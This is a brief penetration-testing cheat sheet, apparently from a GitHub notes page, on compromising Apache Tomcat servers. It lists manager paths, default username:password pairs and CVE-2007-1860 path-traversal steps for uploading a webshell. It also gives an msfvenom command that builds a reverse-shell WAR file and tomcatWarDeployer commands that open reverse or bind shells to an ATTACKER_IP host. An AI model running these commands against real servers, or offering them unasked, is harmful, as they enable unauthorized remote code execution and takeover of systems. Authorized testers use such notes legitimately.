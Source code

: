 ### Tomcat


Path:upload and deploy war files

```
/manager/html
```

Path: version
```
/manager/status
```


#### Default user:pass

```
admin:admin

tomcat:tomcat

admin:<NOTHING>

admin:s3cr3t

tomcat:s3cr3t

admin:tomcat
```

#### CVE-2007-1860
Double URL encode path traversal
- Access the management web path/%252E%252E/manager/html
- Upload webshell
- send cookie and/or a SSRF token
- Access backdoor

#### Remote Code Execution (RCE)

Upload and deploy a .war file if you have enough privileges

- admin
- manager
- manager-script

Find these in /usr/share/tomcat9/etc/tomcat-users.xml

```
find / -name tomcat-users.xml 2>/dev/null
```


#### Reverse Shell WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IPADD LPORT=PORT -f war -o revshell.war
```

#### Bind & Reverse Shell

- [mgeeky git](https://github.com/mgeeky/tomcatWarDeployer)

```
# reverse
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/

# bind

./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```


